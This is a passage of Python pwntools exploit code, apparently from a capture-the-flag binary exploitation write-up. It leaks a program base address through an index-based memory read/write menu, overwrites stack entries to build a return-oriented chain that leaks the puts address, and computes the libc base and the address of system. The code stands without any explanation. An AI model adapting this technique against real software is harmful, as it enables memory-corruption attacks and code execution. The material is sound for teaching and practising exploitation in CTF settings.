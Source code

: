 ```python
p.sendline('1')

program_base = 0
rt = 1;
ti = 0
for i in range(344,352):
	p.recvuntil('index')
	p.sendline(str(i))
	p.recvuntil('(hex) ')
	tmp = int((p.recvuntil('\n', drop = True))[-2:], base = 16)
	print tmp
	program_base = (program_base+tmp*rt)
	rt = rt * 0x100
	p.sendline(str(tmp))
	ti +=1

program_base -= 0xb11

print(hex(program_base))

put_got = program_base + 0x202020
call_put = 0xC3E+program_base
#put_got = 0x2020A0
rdi = program_base + 0xd03
print hex((rdi&0xff00)/0x100)

p.recvuntil('index')
p.sendline('344')
p.recvuntil('(hex)')
p.sendline(str(3))

p.recvuntil('index')
p.sendline('345')
p.recvuntil('(hex)')
p.sendline(str((rdi&0xff00)/0x100))
ti+=2

Modify(352, put_got)
ti += 8

print(hex(put_got))

Modify(360, call_put)
ti += 8

Modify(632, program_base+0xb11) #0x120 offset
ti += 8

if debug:
	debugmsg = 'b* '+hex(program_base+0xC5C)
	gdb.attach(p, debugmsg)

padd(41-ti)
ti = 0

p.recvuntil('? \n')
sleep(0.2)
p.sendline('yes')
put_addr = u64(p.recv(6).ljust(8, '\x00'))
print hex(put_addr)
libc_base = put_addr - 0x06f690
print hex(libc_base)
sys_addr = libc_base + 0x045390
```